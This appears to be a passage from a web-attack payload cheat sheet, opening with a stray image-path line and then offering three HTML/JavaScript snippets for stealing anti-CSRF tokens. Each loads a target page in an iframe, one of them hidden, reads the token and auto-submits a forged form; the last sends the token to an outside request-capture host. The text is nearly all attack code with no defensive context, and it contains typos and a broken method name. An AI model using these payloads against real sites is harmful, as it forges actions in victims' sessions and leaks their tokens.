               <script type="text/javascript">
              function f1(){
                  x1=document.getElementById("i1");
                  x1d=(x1.contentWindow||x1.contentDocument);
                  t=x1d.document.getElementById("token").value;

                  document.getElementById("token").value=t;
                  document.getElementById("form1").submit();
              }
              </script> 
              <iframe id="i1" style="display:none" src="http://google.com?param=VALUE" onload="javascript:f1();"></iframe>


# Steal CSRF Token and sen a POST request using an iframe and a form

              <iframe id="iframe" src="http://google.com?param=VALUE" width="500" height="500" onload="read()"></iframe>

              <script> 
              function read()
              {
                  var name = 'admin2';
                  var token = document.getElementById("iframe").contentDocument.forms[0].token.value;
                  document.writeln('<form width="0" height="0" method="post" action="http://www.yoursebsite.com/check.php"  enctype="multipart/form-data">');
                  document.writeln('<input id="username" type="text" name="username" value="' + name + '" /><br />');
                  document.writeln('<input id="token" type="hidden" name="token" value="' + token + '" />');
                  document.writeln('<input type="submit" name="submit" value="Submit" /><br/>');
                  document.writeln('</form>');
                  document.forms[0].submit.click();
              }
              </script>


# Steal token and send it using 2 iframes

                  <script>
                  var token;
                  function readframe1(){
                    token = frame1.document.getElementById("profile").token.value;
                    document.getElementById("bypass").token.value = token
                    loadframe2();
                  }
                  function loadframe2(){
                    var test = document.getElementbyId("frame2");
                    test.src = "http://requestb.in/1g6asbg1?token="+token;
                  }
                  </script>

                  <iframe id="frame1" name="frame1" src="http://google.com?param=VALUE" onload="readframe1()" 
                  sandbox="allow-same-origin allow-scripts allow-forms allow-popups allow-top-navigation"
                  height="600" width="800"></iframe>

